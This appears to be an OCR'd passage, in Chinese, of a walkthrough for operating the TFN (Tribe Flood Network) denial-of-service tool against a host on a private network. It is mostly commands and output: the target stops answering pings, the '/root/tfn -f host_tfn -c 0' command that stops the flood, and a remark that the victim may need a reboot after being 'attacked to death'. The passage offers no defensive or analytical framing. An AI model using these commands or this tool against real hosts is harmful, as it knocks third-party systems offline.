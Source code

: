 > Sending out packets: ...
 
 
> 过2分钟左右，ping 10.4.192.25就ping不通了

`# ping 10.4.192.25`

> PING 10.4.192.25 (10.4.192.25) 56(84) bytes of data.
 
> --- 10.4.192.25 ping statistics ---

> 16 packets transmitted, 0 received, 100% packet loss, time 14998ms
 

## 关闭攻击

>#/root/tfn -f host_tfn -c 0

> Protocol      : random

> Source IP     : random

> Client input  : list

> Command       : stop flooding

> Password verification:  00008421

> Sending out packets: ...

 
### 关闭攻击后，被攻击主机有可能会恢复通信，也有可能仍不能通信（必须重起），即被“攻死了”

>#ping 10.4.192.25

> PING 10.4.192.25 (10.4.192.25) 56(84) bytes of data.

> From 10.4.3.145 icmp_seq=2 Destination Host Unreachable

> From 10.4.3.145 icmp_seq=3 Destination Host Unreachable

> From 10.4.3.145 icmp_seq=4 Destination Host Unreachable

> From 10.4.3.145 icmp_seq=6 Destination Host Unreachable

> From 10.4.3.145 icmp_seq=7 Destination Host Unreachable

> From 10.4.3.145 icmp_seq=8 Destination Host Unreachable

 
> --- 10.4.192.25 ping statistics ---

> 10 packets transmitted, 0 received, +6 errors, 100% packet loss, time 8998ms
 
>#ping 10.4.192.25

> PING 10.4.192.25 (10.4.192.25) 56(84) bytes of data.

> 64 bytes from 10.4.192.25: icmp_seq=14 ttl=126 time=308 ms

> 64 bytes from 10.4.192.25: icmp_seq=15 ttl=126 time=361 ms

> 64 bytes from 10.4.192.25: icmp_seq=16 ttl=126 time=169 ms

 